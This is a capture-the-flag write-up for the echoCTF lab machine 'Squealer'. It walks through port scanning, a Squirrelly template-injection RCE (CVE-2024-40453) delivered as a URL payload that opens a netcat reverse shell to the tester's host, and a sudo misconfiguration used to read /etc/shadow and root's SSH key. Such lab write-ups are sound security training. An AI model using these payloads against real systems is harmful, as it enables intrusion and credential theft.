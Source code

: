```yaml
---
description: >-
  Squealer echoCTF Machine
title: Squealer (Advanced)                # Add title here
date: 2025-01-30 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: [Squirrelly, RCE]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Squealer.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.48
```

### Content

-   Squirrelly v9.0.0 RCE (CVE-2024-40453)

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
cat allPorts 
# Nmap 7.94SVN scan initiated Fri Jan 31 00:00:23 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.48
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.48 ()     Status: Up
Host: 10.0.14.48 ()     Ports: 22/open/tcp//ssh///, 3000/open/tcp//ppp///
```
Services and Versions running:
```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 80:99:90:ea:15:e3:ab:62:09:a1:59:9d:20:c4:30:09 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFjX/XcexxANOR9q+NytjakZZrx2A8lxaMLAcqKfUelUyghougQ3NfwE/XK9ijc/f7ENNsxCFoepp7kc5AyVEbI=
|   256 47:7e:f3:6b:c9:68:a1:1e:8e:42:2f:a7:de:59:e9:59 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN6O2vsvH1hGR3kXu1AfhbkcSzg/6TEcNwzpt+9Q9uEn
3000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Exploitation

As shown in the netcat output, only port TCP-3000 is open, so we start by accessing to it from a browser just in case there is a website hosted:

![](/assets/img/Pasted-image-20250130234640.png)

From here there is a hint about the Template Engine, which makes us think about SSTI vulnerabilities, searching for an exploit on this I found this [Squirrelly v9.0.0 RCE](https://samuzora.com/posts/cve-2024-40453) with an excellent explanation with all the details we need to know, first of all to try out if the server might be vulnerable the following payload is used:

```bash
http://10.0.14.48:3000/?useWith=1&varName=console.log(%22x%22)
```
According with the blog post, if there is an error, then we are on the right way:
![](/assets/img/Pasted-image-20250130235003.png)

Then by reading all the blog, we identify the following payload that allows us to get a reverse shell:
```bash
http://10.0.14.48:3000/?useWith=1&varName=%7B%20a:%20b%20=%20global.process.mainModule.require(%22child_process%22).execSync(%22nc%20-e%20/bin/sh%2010.10.5.122%201234%22)%20%7D
```
And then we have a reverse shell as user `ETSCTF`:
```bash
nc -lvnp 1234     
listening on [any] 1234 ...
connect to [10.10.5.122] from (UNKNOWN) [10.0.14.48] 49658
python3 -c 'import pty; pty.spawn("/bin/bash")'
ETSCTF@squealer:/opt/app$
```

### Privilege Escalation

For privilege escalation there is a binary that can be executed as sudo without password:
```bash
ETSCTF@squealer:/opt/app$ sudo -l
Matching Defaults entries for ETSCTF on squealer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User ETSCTF may run the following commands on squealer:
    (ALL : ALL) NOPASSWD: /opt/node/bin/clisquir
```

Reading its content it seems that there is another squirrelly app within:
```bash
ETSCTF@squealer:/opt/app$ cat /opt/node/bin/clisquir
#!/opt/node/bin/node
var Sqrl = require('squirrelly')
var args = process.argv.slice(2);

var template = args[0];
var val = JSON.parse(args[1]) || { user: 'cool person' };
console.log(Sqrl.renderFile(template, val));
```

Searching for some payloads to exploit this kind of implementation I got this payload that allows Arbitrary File Read:

```bash
ETSCTF@squealer:/opt/app$ sudo /opt/node/bin/clisquir "/etc/shadow" '{}'
```
Finally to get root all it lefts is to read the id_rsa from root:
```bash
ETSCTF@squealer:/opt/app$ sudo /opt/node/bin/clisquir "/root/.ssh/id_rsa" '{}'
```
Run the `ssh -i id_rsa` and you'll get a root shell... AND WE ARE INSIDE!!!


### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

No credentials were found or needed.

### Notes

-   Simple exploits, nothing fancy here.

### References

- [Squirrelly v9.0.0 RCE](https://samuzora.com/posts/cve-2024-40453)

